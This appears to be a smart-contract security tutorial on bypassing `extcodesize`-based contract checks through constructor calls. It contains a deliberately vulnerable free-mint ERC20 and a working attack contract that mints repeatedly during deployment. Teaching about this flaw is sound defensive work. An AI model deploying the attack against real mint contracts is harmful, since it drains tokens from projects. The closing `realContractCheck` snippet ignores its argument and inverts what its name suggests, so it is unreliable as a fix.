 ```yaml
---
title: Bypass Contract Check
displayed_sidebar: generalSidebar
keywords:
  - smart-contracts
  - security
  - vulnerabilities
  - contract-check
  - extcodesize
  - bytecode
  - eoa
  - free-mint
  - solidity
  - constructor-exploit
  - prevention
tags:
  - Constructor
  - Security
  - Contratos Inteligentes
---
```


Many free-mint projects utilize the `isContract()` method to limit access to external accounts (EOAs) and restrict contract addresses. This method leverages `extcodesize` to determine the runtime `bytecode` length of an address. If it is greater than zero, the address is deemed a contract; otherwise, it is considered an EOA.

```solidity
    // Using extcodesize to check if an address is a contract
    function checkContract(address account) public view returns (bool) {
        uint size;
        assembly {
            size := extcodesize(account)
        }
        return size > 0;
    }
```

However, a vulnerability exists because, during contract creation, the runtime `bytecode` has not yet been stored at the address, so the `bytecode` length is zero. If we place our logic within the constructor, we can bypass the `isContract()` check.

**Example of the Vulnerability**

In the example below, `FreemintERC20` contract uses the `checkContract()` function to prevent contract addresses from executing its `mintTokens()` function, which is intended to prevent automated bulk minting. Each call to `mintTokens()` mints 100 tokens.

```solidity
// Using extcodesize to check if an address is a contract
contract FreemintERC20 is ERC20 {
    constructor() ERC20("Token", "TKN") {}

    function checkContract(address account) public view returns (bool) {
        uint size;
        assembly {
            size := extcodesize(account)
        }
        return size > 0;
    }

    // mint function can only be called by non-contract addresses (vulnerable)
    function mintTokens() public {
        require(!checkContract(msg.sender), "Contracts are not allowed!");
        _mint(msg.sender, 100);
    }
}
```

We create an attack contract that calls `mintTokens()` multiple times during its constructor to mint `1000` tokens:

```solidity
// Exploiting constructor characteristics for attacks
contract AttackContract {
    bool public detectedAsContract;
    address public targetContract;

    // During contract creation, extcodesize is 0, thus bypassing isContract() checks.
    constructor(address addr) {
        targetContract = addr;
        detectedAsContract = FreemintERC20(addr).checkContract(address(this));
        for(uint i; i < 10; i++){
            FreemintERC20(addr).mintTokens();
        }
    }

    // After contract deployment, extcodesize > 0, isContract() will detect
    function tryMint() external {
        FreemintERC20(targetContract).mintTokens();
    }
}
```

In this contract, calling `mintTokens()` within the constructor will bypass the `isContract()` check successfully and mint the tokens. The state variable `detectedAsContract` will be set to `false` in the constructor. After deployment, the `runtime bytecode` is stored at the contract address, and `extcodesize > 0`, thus `checkContract()` will successfully block the minting when calling `mintTokens()`.

**Prevention Methods**

We can use `(tx.origin == msg.sender)` to determine if the caller is a contract. If the caller is an EOA, then `tx.origin` and `msg.sender` will be equal; if they are not equal, the caller is a contract.

```solidity
function realContractCheck(address account) public view returns (bool) {
    return (tx.origin == msg.sender);
}
```
